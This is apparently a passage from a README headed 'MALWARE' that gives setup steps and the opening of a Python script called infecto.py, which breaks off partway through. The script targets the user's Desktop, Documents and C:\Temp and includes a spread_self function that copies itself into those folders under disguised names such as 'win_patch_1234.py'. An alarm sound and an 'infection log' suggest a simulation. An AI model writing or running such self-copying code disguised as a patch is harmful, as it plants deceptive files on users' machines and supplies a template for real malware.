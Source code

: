 ## MALWARE

### Step 2: Setup your Virtual Environment

To activate:
```bash 
python -m venv venv
```

```bash
venv\Scripts\activate
```
 ### Step 3: Install Required Libraries

```bash
pip install pygame
```

### Step 4: infecto.py

```bash
import os, shutil, random, time, datetime, tkinter as tk, pygame
from threading import Thread

# ===== CONFIG =====
TARGET_DIRS = [
    os.path.expanduser("~/Desktop"),
    os.path.expanduser("~/Documents"),
    "C:\\Temp"
]
FAKE_EXT = ".infected"
ALARM_FILE = os.path.join(os.path.dirname(__file__), "alert.wav")
SIM_DURATION = 20
SAVE_DIR = os.path.expanduser("~/Desktop")  # infection_log.txt will be saved here
# ==================

log = []

def log_event(event, box=None):
    ts = datetime.datetime.now().strftime("%H:%M:%S")
    entry = f"[{ts}] {event}"
    log.append(entry)
    print(entry)
    if box:
        box.insert(tk.END, entry + "\n")
        box.see(tk.END)

def save_log():
    """Save IOC log to Desktop after infection ends"""
    try:
        fname = os.path.join(SAVE_DIR, "infection_log.txt")
        with open(fname, "w") as f:
            for entry in log:
                f.write(entry + "\n")
        print(f"[+] Infection log saved at: {fname}")
    except Exception as e:
        print(f"[!] Could not save log: {e}")

def spread_self(log_box=None):
    exe_path = os.path.abspath(__file__)
    for d in TARGET_DIRS:
        try:
            os.makedirs(d, exist_ok=True)
            target = os.path.join(d, f"win_patch_{random.randint(1000,9999)}.py")
```